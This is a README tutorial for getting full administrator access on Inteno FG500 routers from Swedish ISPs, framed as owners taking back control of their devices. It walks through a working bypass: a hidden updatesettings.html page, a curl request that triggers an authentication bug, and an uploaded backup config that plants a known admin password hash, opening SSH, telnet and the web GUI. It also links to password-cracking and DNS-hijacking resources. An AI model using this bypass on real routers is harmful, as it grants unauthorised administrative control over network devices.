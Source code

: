 ![Screenshot](pictures/banner.jpg)

# README

#### This wiki and **all** scripts that will be made by wuseman is licensed under GPL Version 3.

##### This is the first wiki online that will help you to bring the power back from Inteno and many swedish ISPS by this method (not the only method)

##### No intrusion on Inteno or any swedish ISP servers has occurred and no damage on hardware has been done. It's all about extremely poor security in the firmware.

##### No password will be provided at all on this wiki due to convicted judgment in the district court. 

##### _Therefore, I will show another way that does not require cracking passwords of any ISP's password! This tutorial will also work fine for ALL isps and not just for swedish ISPS._

##### Greetings to Daniel Vindevåg for all the hard work this guy did http://www.nattsjo.se/fiber/admin.php and really impressive that you toke all your hard work to court even if they won! Stay strong! On his personal page you can find alot of good info (swedish only) for how to crack the admin password and also some nice scripts like dnshijacking.

##### Read more about his job [here](http://www.nattsjo.se/fiber/admin.php) and about the judgment decision and info about this can be found [http://nao.vindevag.com/](here)

##### If you still using this router (its pretty good to be honest) then do yourself a favor and take control over the router, here is some articles about Inteno FG500

##### [Ownit Deploys Wifi Routers With Security Hole Across Sweden](http://scienceblogs.com/aardvarchaeology/2014/10/19/ownit-deploys-wifi-routers-with-security-hole-across-sweden/)

##### [Inteno CWMP certificate validation vulnerability](https://sintonen.fi/advisories/inteno-cwmp-certificate-validation-vulnerability.txt)

##### And from now, there is another bug wich i will expose in this repo! ;-)

##### A notice to all nerds. If you will copy the wiki and steal the real developers work will not make you a hacker.

# Default views

![Screenshot](pictures/login-screen-default.png)

![Screenshot](pictures/mainscreen2.png)

![Screenshot](pictures/managment-default.png)


# Let's hack!

#### To get telnet, ssh and all other services enable as an administrator via wusemans method if Daniels password does not work for your isp, then use the bug I have found.

#### Visit the hidden page: 

      http://192.168.1.1/updatesettings.html

#### This will give you a WHITE page (see video below), now open a terminal and type:

     curl -L http://192.168.1.1 -u loginname:password

#### Wierd bug preview: 

![Screenshot](pictures/wierd-bug.gif)

### Now head back to the website and you will be able to visit the updatesettings page as default user ;-)

#### Create a file named backupsettings.conf and add below text into backupsettings.conf:

      <X_BROADCOM_COM_LoginCfg>
          <AdminPassword>e8d4ef5c95f6925dfdf7b91da9a2da90</AdminPassword>
      </X_BROADCOM_COM_LoginCfg>
      <Services>
        <StorageService instance="1">
        </StorageService>
        <StorageService nextInstance="2" ></StorageService>
        <VoiceService instance="1">
        <VoiceProfileNumberOfEntries>0</VoiceProfileNumberOfEntries>
        <X_BROADCOM_COM_BoundIfName>Any_WAN</X_BROADCOM_COM_BoundIfName>
        <Capabilities>
          <Codecs instance="1">
          </Codecs>
          <Codecs instance="2">
          </Codecs>
          <Codecs instance="3">
          </Codecs>
          <Codecs instance="4">
          </Codecs>
          <Codecs instance="5">
          </Codecs>
          <Codecs instance="6">
          </Codecs>
          <Codecs instance="7">
          </Codecs>
          <Codecs instance="8">
          </Codecs>
          <Codecs nextInstance="9" ></Codecs>
        </Capabilities>

#### Upload the file and let the router reboot.

#### Now you are able to login via ssh, telnet or webgui with full privileges:

# Login details:

       username: admin
       password: wusemanwashere

#### This is how it will look when you have full control, there is alot of services to play with:

![Screenshot](pictures/services-after-hacking.png)

#### If you want, flash your firmware with your own openwrt firmware:

![Screenshot](pictures/update-firmware-after-hacking.png.png)

#### Mainscreen after we hacked the router:

![Screenshot](pictures/mainscreen-after-hacking.png)

#### Shell is really minimal:

![Screenshot](pictures/telnet-intenofg500.gif)

#### REQUIREMENTS

A linux setup would be good ;)

#### CONTACT 

If you have problems, questions, ideas or suggestions please contact me by posting to wuseman@nr1.nu

#### WEB SITE

Visit my websites and profiles for the latest info and updated tools

https://github.com/wuseman/ && https://nr1.nu && https://stackoverflow.com/users/9887151/wuseman

#### END!

